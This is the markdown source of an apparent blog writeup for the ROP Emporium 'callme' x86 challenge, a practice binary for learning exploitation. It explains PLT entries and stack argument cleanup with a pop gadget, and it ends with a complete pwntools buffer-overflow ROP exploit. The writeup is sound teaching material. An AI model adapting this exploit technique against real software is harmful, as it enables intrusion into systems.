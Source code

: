 ```yaml
---
layout: post
title:  "ROP Emporium callme Writeup (x86)"
date:   2024-06-02 00:00:00 -0400
categories: rop-emporium challenge-3
tags: rop-emporium callme x86 writeup buffer-overflow rop reverse-engineering 32-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[third challenge](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call the functions `callme_one()`,
`callme_two()`, and `callme_three()` in that order with
the arguments `0xdeadbeef`, `0xcafebabe`, and `0xd00df00d`.

We should essentially be running
```c
callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d);
callme_two(0xdeadbeef, 0xcafebabe, 0xd00df00d);
callme_three(0xdeadbeef, 0xcafebabe, 0xd00df00d);
```

## Exploit Crafting
The offset for `x86` challenges will be `44 bytes`. If
you want to know how to get this value see the
[`x86` ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> What are the plt addresses of the functions?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![func-addr](/images/callme/x86-addr.png)

The function addresses we need are
```
callme_one: 0x080484f0
callme_two: 0x08048550
callme_three: 0x080484e0
```

### Procedure Linkage Table
These addresses aren't addresses of `call` instructions,
but rather `plt` entries. These `plt` entries are
used to lookup the address of a function located
in an external library. You can tell when an address
is a `plt` address by the `sym.imp` string in `r2`

If you want a deeper understanding
of the `plt` (procedure linkage table) and the `got`
(global offset table) you can check the `How lazy binding
works` section in the 
[ROP Emporium Beginners Guide](https://ropemporium.com/guide.html#Appendix%20A){:target="_blank"}{:rel="noopener noreferrer"}
as well as this
[fantastic blog post](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html){:target="_blank"}{:rel="noopener noreferrer"}

Why are we using the `plt` entries for the functions
rather than the calls in `usefulFunction`? When
a `call` instruction is executed, it'll execute the
function while also placing the return address onto
the stack! So once `callme_one()` is finished it
will continue to execute instructions in `usefulFunction`

![call-problem](/images/callme/x86-call-problem.png)

So after we finish `callme_one()`, the program
will exit. This would could be okay for one function
call but we want to chain a few together

### Adding Arguments
> Which instruction removes a value from the stack
> and moves the stack pointer?
{: .prompt-tip }

#### x86 Calling Convention
In `x86`, we pass each argument onto the stack.
There are other
[`x86` calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions){:target="_blank"}{:rel="noopener noreferrer"}
but passing arguments is all we need to know for
our purposes

The previous challenge used a `call` instruction to
invoke a function, but that won't work if we want
to chain multiple functions together. Using a `call`
also has the hidden effect of automatically adding
a return address to the stack!

#### Argument Debugging
Since we aren't using `call`, we need to manually maintain
the stack. A first attempt at constructing a ROP chain for
this challenge might look something like this 

![first-stack](/images/callme/x86-first-stack.png)

But when we try to run this, `callme_one`'s first
argument is incorrect! It points to the second arg
(`0xcafebabe`) instead of the first (`0xdeadbeef`)
![arg-error](/images/callme/x86-arg-error.png)

If we try to add some junk data (`0x66666666`) between
`callme_one` and `0xdeadbeef` we get a return error

![junk-stack](/images/callme/x86-junk-stack.png)

![junk-error](/images/callme/x86-junk-error.png)

If we replace the junk data with the address of
`callme_two`, the second function will get called
but the stack will be a little wonky...

![ret-stack](/images/callme/x86-ret-stack.png)

![ret-error](/images/callme/x86-ret-error.png)

What essentially happened is once `callme_one` finished
(with the proper arguments) the `callme_one` address
was `pop`ped off the stack and our previous junk entry
is now at the top of the stack. That address is called
and we have the same stack argument offset 
issues as before!

![arg2-error](/images/callme/x86-arg2-error.png)

#### Gadget
So how do we solve this? Here's
[a great article](https://web.archive.org/web/20240506223041/http://phrack.org/issues/58/4.html#article){:target="_blank"}{:rel="noopener noreferrer"}
which goes over some methods for
chaining functions in a 32 bit environment.

We're going to be taking advantage of the `pop` command.
You should know by now that it takes a value off of the
stack and places it into a specified register. What
makes this really powerful is that it not only sets a
register, it'll update the stack pointer to remove the space
reserved for this value! This will allow us to 
completely delete our function arguments off of the stack
so the stack is properly set for our next function call

Since we have three arguments, we should find a gadget
which `pop`s three arguments into any register. In
`radare2` we can use the `/R` command

```
/R pop
```
![pop-addr](/images/callme/x86-pop-addr.png)

If we set this gadget to run once `callme` ends, it'll
remove all of the arguments for that function and we're
free to call more arbitrary functions with arbitrary
arguments! The stack should look like this in the final
exploit

![pop-stack](/images/callme/x86-pop-stack.png)

## Exploit
Now we have everything we need to build the exploit
```python
from pwn import *

# useful addresses
callme1_addr = 0x080484f0
callme2_addr = 0x08048550
callme3_addr = 0x080484e0
pop_3 = 0x080487f9

# adds function arguments onto the stack
def add_args(args):
    # fixes stack after function returns
    payload = p32(pop_3)
    # adds args
    for a in args:
        payload += p32(a)
    return payload

# required callme args in the proper order
args = [0xdeadbeef, 0xcafebabe, 0xd00df00d]

# construct payload
payload = b'A' * 44
# callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)
payload += p32(callme1_addr)
payload += add_args(args)

payload += p32(callme2_addr)
payload += add_args(args)

payload += p32(callme3_addr)
payload += add_args(args)

# send payload + receive flag
io = process('./callme32')
io.send(payload)
io.recvuntil(b'callme_two() called correctly\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```
![flag](/images/callme/x86-flag.png)

## Conclusion
This challenge takes things a step further than
just calling an arbitrary function by introducting the 
ability to set arbitrary arguments for that function.
This isn't as simple as it seems as we also need to
maintain the stack under `x86` with a `pop` gadget!

[Previous Challenge (split)]({% post_url 2024-06-01-rop-emporium-split-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

Next Challenge (write4)

[callme x64]({% post_url 2024-06-02-rop-emporium-callme-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}
